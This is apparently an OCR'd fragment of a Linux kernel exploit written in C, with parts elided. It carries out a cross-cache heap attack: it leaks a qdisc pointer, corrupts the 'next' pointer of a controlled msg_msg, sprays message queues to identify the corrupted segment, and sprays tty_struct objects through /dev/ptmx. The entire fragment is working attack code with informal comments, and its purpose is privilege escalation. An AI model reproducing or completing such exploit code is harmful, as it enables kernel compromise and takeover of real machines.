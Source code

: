 ```c
  if (!qdisc_ptr_leak) {
    // We will likely just crash here regardless lol
    printf("[!] Cross cache failed lol. Retry\n");
    return;
  }
  free(mrecv);

  // ...
  
  // Hit the `next` ptr of controlled msg
  do_ptr_write(idx, quant - 0x180 + 0x20, 1, sock_fd, &dest_addr);
  
  // ...
  // Cross cache stuff
  // ...
  
  // Need to be able to identify each msg
  {
    int msgsz = NEW_SPRAY_SZ;
    char *msgtxt = msg1;
    int spray_n = MSG_SPRAY * 2;
    int *qstore = qid1;
    int qidn = 0;
    int ret = -1;
    socklen_t len = 0;
    char mbuf[msgsz + MSGSZ];
    struct msgbuf *msg = (struct msgbuf *)mbuf;
    msgsz -= (MSGSZ);
    memcpy(msg->mtext, msgtxt, msgsz);
    for (int j = 0; j < spray_n; j++) {
      msg->mtype = MSG_SPRAY + j + 1;
      qidn = qstore[j];
      *(uint64_t *)(&msg->mtext[0x188 - 0x30]) = MSG_SPRAY + j + 1;
      if (msgsnd(qidn, msg, msgsz, 0) < 0) {
        printf("j: %d\tqid: %d\tmsgsz: 0x%x\n", j, qidn, msgsz);
        perror("msgsnd lol");
        exit(-1);
      }
    }
  }

  printf("[!] Receiving...");
  char *mrecv1 = recv_msg_CPY(qid[i], NEWCOMPSZ, 1, 0);
  uint64_t seg_idx = *(uint64_t *)(&mrecv1[MSGMSGSZ + 8]);

  printf("[*] Controlled seg idx: 0x%lx -> 0x%lx\n", seg_idx,
         seg_idx - (MSG_SPRAY + 1));

  seg_idx -= (MSG_SPRAY + 1);
  free(mrecv1);
  mrecv1 = recv_msg(qid1[seg_idx], NEW_SPRAY_SZ, 0, 0);
  dumph(mrecv1, 0x10, ' ');
  free(mrecv1);

  // Need moar raaaagh
  int spray_socks[0x200 - 4 - 1 + 0x50];
  for (int i = 0; i < sizeof(spray_socks) / sizeof(spray_socks[0]); i++) {
    if ((spray_socks[i] = open("/dev/ptmx", O_RDWR | O_NOCTTY)) <= 2) {
      printf("i: %d\n", i);
      perror("tty_struct spray open");
      exit(-1);
    }
  }
```